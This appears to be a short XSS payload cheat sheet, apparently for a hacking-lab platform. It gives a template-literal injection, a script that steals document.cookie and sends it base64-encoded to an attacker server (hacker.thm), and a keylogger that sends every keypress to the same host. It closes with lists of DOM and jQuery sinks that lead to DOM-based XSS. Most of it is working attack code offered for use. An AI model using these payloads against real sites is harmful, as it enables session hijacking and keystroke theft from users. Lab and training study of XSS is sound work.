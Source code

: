 ## JavaScript Template Literals

Use this payload to exploit JavaScript template literals:

```javascript
${alert(document.domain)}
```

## Cookie Stealing

Base64 encode the cookie and send it to the attacker's server:

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

## Key Logger

Use this payload to log keystrokes and send them to the attacker's server:

```html
<script>
document.onkeypress = function(e) { 
  fetch('https://hacker.thm/log?key=' + btoa(e.key)); 
}
</script>
```

## Sinks Leading to DOM-XSS Vulnerabilities

The following JavaScript functions can lead to DOM-based XSS vulnerabilities:

- `document.write()`
- `document.writeln()`
- `document.domain`
- `element.innerHTML`
- `element.outerHTML`
- `element.insertAdjacentHTML`
- `element.onevent`

## jQuery Functions Leading to DOM-XSS

The following jQuery functions can lead to DOM-based XSS vulnerabilities:

- `add()`
- `after()`
- `append()`
- `animate()`
- `insertAfter()`
- `insertBefore()`
- `before()`
- `html()`
- `prepend()`
- `replaceAll()`
- `replaceWith()`
- `wrap()`
- `wrapInner()`
- `wrapAll()`
- `has()`
- `constructor()`
- `init()`
- `index()`
- `jQuery.parseHTML()`
- `$.parseHTML()`
